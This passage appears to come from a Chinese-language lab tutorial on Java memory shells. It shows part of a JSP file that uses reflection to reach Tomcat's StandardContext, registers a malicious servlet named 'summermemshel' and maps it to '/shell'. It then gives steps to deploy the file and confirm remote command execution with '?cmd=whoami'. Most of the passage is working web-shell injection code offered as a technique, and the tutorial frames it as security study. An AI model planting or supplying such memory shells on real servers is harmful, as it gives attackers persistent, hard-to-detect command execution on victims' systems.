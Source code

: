 ```java
            return null;
        }
        @Override
        public void destroy() {

        }
    };

    // 获取StandardContext
    StandardContext standardCtx = null;
    ServletContext servletContext = request.getServletContext();
    Field appContextField = servletContext.getClass().getDeclaredField("context");
    appContextField.setAccessible(true);
    Object appContext = appContextField.get(servletContext);

    Field standardCtxField = appContext.getClass().getDeclaredField("context");
    standardCtxField.setAccessible(true);
    standardCtx = (StandardContext) standardCtxField.get(appContext);

    if (standardCtx != null) {
        // 用Wrapper对其进行封装
        org.apache.catalina.Wrapper newWrapper = standardCtx.createWrapper();
        newWrapper.setName("summermemshel");
        newWrapper.setLoadOnStartup(1);
        newWrapper.setServlet(servlet);
        newWrapper.setServletClass(servlet.getClass().getName());

        // 添加封装后的恶意Wrapper到StandardContext的children当中
        standardCtx.addChild(newWrapper);

        // 添加ServletMapping将访问的URL和Servlet进行绑定
        standardCtx.addServletMappingDecoded("/shell", "summermemshel");
    } else {
        out.println("Failed to get StandardContext");
    }
%>
```

新建一个 `index.jsp` 文件, 将上述代码贴在其中

访问 `http://localhost:8080/java-memshell-tomcat-servletapi/index.jsp`

![image-20240911143825536](http://cdn.ayusummer233.top/DailyNotes/202409111438611.png)

验证 servletapi 内存马: `http://localhost:8080/java-memshell-tomcat-servletapi/shell?cmd=whoami`

> 不可以加 `/index.jsp`, 否则会 404
>
> ![image-20240911181416841](http://cdn.ayusummer233.top/DailyNotes/202409111814029.png)
>
> ![image-20240911181437409](http://cdn.ayusummer233.top/DailyNotes/202409111814471.png)

使用新增servlet的方式就需要绑定指定的URL
